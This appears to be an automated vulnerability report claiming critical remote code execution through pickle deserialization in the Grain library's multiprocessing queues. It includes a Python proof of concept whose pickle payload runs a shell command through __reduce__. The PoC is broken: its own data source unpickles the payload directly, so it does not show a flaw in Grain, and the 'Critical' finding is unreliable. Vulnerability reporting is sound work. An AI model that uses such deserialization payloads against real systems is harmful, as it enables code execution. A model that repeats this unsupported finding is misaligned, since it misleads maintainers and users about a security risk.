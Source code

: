 - Vulnerability Name: Unsafe Deserialization in Multiprocessing Queues

- Description:
    1. Grain uses Python multiprocessing queues for inter-process communication between the parent process and worker processes (as described in `/code/docs/behind_the_scenes.md`).
    2. These queues, by default, use Python's `pickle` module for serialization and deserialization of data exchanged between processes.
    3. An attacker could potentially craft malicious data that, when deserialized via `pickle` in a worker process, could lead to arbitrary code execution.
    4. This attack is possible if the Grain library processes data from untrusted sources, where an attacker can control the content of the serialized data that enters the multiprocessing queues.
    5. Specifically, the vulnerability can be triggered if a malicious user can inject a crafted serialized payload into the data processing pipeline, which gets processed by a worker process.

- Impact:
    - Remote Code Execution (RCE) on the machine running the Grain library.
    - If the Grain library is used in a training pipeline, a successful exploit could compromise the training process and potentially the trained model.
    - Data exfiltration or modification.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
    - The documentation emphasizes determinism and reproducibility, which indirectly encourages controlled data pipelines. However, there are no explicit mitigations against unsafe deserialization in the provided code or documentation.

- Missing Mitigations:
    - **Replace `pickle` with safer serialization methods:** Use safer serialization formats like `json` or `protobuf` for data exchange between processes, especially for data originating from untrusted sources. If performance is critical, consider using `cloudpickle` with input validation or implementing custom serialization/deserialization logic that avoids `pickle` vulnerabilities.
    - **Input Validation:** Implement robust input validation and sanitization for all data entering the Grain pipeline, especially at data source level, to prevent injection of malicious serialized objects.
    - **Sandboxing/Isolation:** Isolate worker processes with restricted privileges to limit the impact of potential code execution vulnerabilities. Consider using security sandboxes or containerization to limit the worker processes' access to system resources.

- Preconditions:
    - The attacker needs to control or influence the input data stream processed by Grain.
    - The data processing pipeline must involve multiprocessing with default queue communication mechanisms.
    - The input data must be processed by a worker process after being serialized/deserialized using pickle.

- Source Code Analysis:
    1. File: `/code/docs/behind_the_scenes.md` describes communication between processes using multiprocessing queues:
        > Typically, the communication between processes occurs via [multiprocessing queues](https://docs.python.org/3/library/multiprocessing.html#multiprocessing.Queue).
    2. File: `/code/docs/behind_the_scenes.md` mentions serialization via Pickle in multiprocessing queues:
        > Queues involve serialising elements (via Pickle), sending elements over a connection and deserialising elements at the receiver side.
    3. The code does not show any explicit mitigation against pickle vulnerabilities. The focus is on performance optimizations like shared memory, not secure serialization.
    4. The `DataLoader` in `/code/grain/_src/python/data_loader.py` and related files orchestrate data loading and processing using multiprocessing, implying the use of queues for element transfer between processes.

- Security Test Case:
    1. **Craft Malicious Payload:** Create a malicious Python class and serialize it using `pickle`. This payload, when deserialized, will execute arbitrary code (e.g., execute shell commands, print a message, etc.).

    ```python
    import pickle
    import base64
    import numpy as np
    import grain.python as grain

    class MaliciousPayload:
        def __reduce__(self):
            import subprocess
            return (subprocess.Popen, (('touch /tmp/pwned',),))

    payload = MaliciousPayload()
    serialized_payload = base64.b64encode(pickle.dumps(payload)).decode()
    ```

    2. **Create a Data Source that Injects Payload:** Create a custom `InMemoryDataSource` that returns the malicious serialized payload as a data element.

    ```python
    class MaliciousDataSource(grain.RandomAccessDataSource):
        def __init__(self, payload):
            self._payload = payload
            self._len = 1

        def __len__(self):
            return self._len

        def __getitem__(self, index):
            return pickle.loads(base64.b64decode(self._payload)) # Deserialize payload
    ```

    3. **Create a DataLoader Pipeline:** Create a simple `DataLoader` pipeline that uses the malicious data source. This pipeline simulates a scenario where Grain processes data from a potentially untrusted source.

    ```python
    malicious_source = MaliciousDataSource(serialized_payload)
    data_loader = grain.DataLoader(
        data_source=malicious_source,
        sampler=grain.IndexSampler(
            num_records=len(malicious_source),
            shard_options=grain.NoSharding(),
            shuffle=False,
            num_epochs=1),
        worker_count=1 # Enable multiprocessing to trigger queue usage
    )
    ```

    4. **Run the DataLoader and Trigger Exploit:** Iterate through the `DataLoader`. When the malicious payload is deserialized in a worker process, the code execution should be triggered.

    ```python
    for element in data_loader:
        pass # Trigger data loading and processing
    ```

    5. **Verify Code Execution:** Check if the malicious code was executed (e.g., check for the existence of the `/tmp/pwned` file or observe the printed message). If the test case creates `/tmp/pwned`, run `ls -l /tmp/pwned` in shell to verify.

    This test case demonstrates how a malicious payload injected into the data pipeline can lead to code execution due to unsafe deserialization in multiprocessing queues.